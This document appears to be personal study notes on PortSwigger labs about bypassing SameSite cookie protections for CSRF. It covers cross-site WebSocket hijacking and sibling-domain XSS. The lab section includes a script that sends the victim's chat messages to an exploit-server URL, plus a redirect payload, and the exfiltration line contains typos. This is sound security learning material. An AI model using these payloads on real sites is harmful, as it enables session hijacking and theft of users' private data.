 
2024-07-24 15:01

Source: #portswigger #web 

Tags: [[CSRF]] [[SameSite cookie]] 

### Bypassing SameSite Lax restrictions using GET requests

If servers also use `Lax` restrictions for their session cookies, either explicitly or due to the browser default, you may still be able to perform a CSRF attack by eliciting a `GET` request from the victim's browser. 
As long as the request involves a top-level navigation, the browser will still include the victim's session cookie. 

Even if an ordinary `GET` request isn't allowed, some frameworks provide ways of overriding the method specified in the request line. For example, `Symfony` supports the `_method `parameter in forms, which takes precedence over the normal method for routing purposes

### Bypassing SameSite restrictions using on-site gadgets

- If a cookie is set with the` SameSite=Strict` attribute, browsers won't include it in any cross-site requests. You may be able to get around this limitation if you can find a gadget that results in a secondary request within the same site. 
- One possible gadget is a client-side redirect that dynamically constructs the redirection target using attacker-controllable input like URL parameters.
- Note that the equivalent attack is not possible with server-side redirects. 
If the site is redirecting then find a script that is doing the redirect, study the script, find a parameter that we can manipulate, then do directory traversal 

### Bypassing SameSite restrictions via vulnerable sibling domains

In addition to classic `CSRF`, don't forget that if the target website supports `WebSockets`, this functionality might be vulnerable to cross-site [[WebSocket]] hijacking (CSWSH), which is essentially just a CSRF attack targeting a WebSocket handshake. 
##### Lab:
in the lab we have a chat feature that uses websockets, when capturing the request on burp we see that we send a ready message and the websocket server responds with the entire chat history that is tied to our session cookie
in http history find a response that mentions switching protocol in that corresponding request check if the request contains all the points for it to be CSRF vulnerable. 
###### samesite: None
 
with no restrictions we can add the following script on our website 
once the victim has visited the page we see that we can see the chat message from our victim now but because of the same site equals strict session cookie restriction we're only seeing chat messages or the chat message for a new chat session.

```
<script>
var webSocket = new WebSocket("lab-url/chat");

webSocket.onopen = function(evt){
	webSocket.send("READY");
};

webSocket.onmessage = function(evt){
	var message = evt.data;
	fetch("exploit-server-url/exploit?message=")+btao(message);
};
</script>
```
###### samesite: Strict

- If our application was something like a Blog I would look for the comments section and I would check whether the any of the fields in the comment section are vulnerable to a stored cross-site scripting attack because that way we could store our payload in there and send our victim a link to the post that includes our payload that we injected through cross-site scripting
- but our application is just a product page 

- we see for request with `chat.js` for example we can see that the response header `Access-Control-allow-origin` here reveals an additional sibling domain and it's hosted on the same main domain
- If there was a stored cross-site scripting or reflected cross-site scripting vulnerability within this endpoint it would still honor the same site restriction
- since there is a reflected xss vuln on the new domain 
- we see that the login (new domain) endpoint also accepts our payload as a get request
- the payload we used in `samesite: None` can be used on the new domain
- we url encode the whole payload and add it to the url of the new domain 
- when crafting the payload on the exploit server we write
```
<script>
	document.location="newdomain-url/urlencoded-payload";
</script>
```

#### Bypassing SameSite Lax restrictions with newly issued cookies

If a website doesn't include a `SameSite` attribute when setting a cookie, Chrome automatically applies `Lax` restrictions by default. However, to avoid breaking single sign-on (SSO) mechanisms, it doesn't actually enforce these restrictions for the first 120 seconds on top-level POST requests. As a result, there is a two-minute window in which users may be susceptible to cross-site attacks.

This two-minute window does not apply to cookies that were explicitly set with the `SameSite=Lax` attribute.

It's somewhat impractical to try timing the attack to fall within this short window. On the other hand, if you can find a gadget on the site that enables you to force the victim to be issued a new session cookie, you can preemptively refresh their cookie before following up with the main attack. For example, completing an OAuth-based login flow may result in a new session each time as the OAuth service doesn't necessarily know whether the user is still logged in to the target site. 

 To trigger the cookie refresh without the victim having to manually log in again, you need to use a top-level navigation, which ensures that the cookies associated with their current OAuth session are included. This poses an additional challenge because you then need to redirect the user back to your site so that you can launch the CSRF attack.

Alternatively, you can trigger the cookie refresh from a new tab so the browser doesn't leave the page before you're able to deliver the final attack. A minor snag with this approach is that browsers block popup tabs unless they're opened via a manual interaction. For example, the following popup will be blocked by the browser by default:
```
window.open('https://vulnerable-website.com/login/sso');
```

To get around this, you can wrap the statement in an onclick event handler as follows:
```
window.onclick = () => {
    window.open('https://vulnerable-website.com/login/sso');
}
```

This way, the `window.open()` method is only invoked when the user clicks somewhere on the page. 

### References
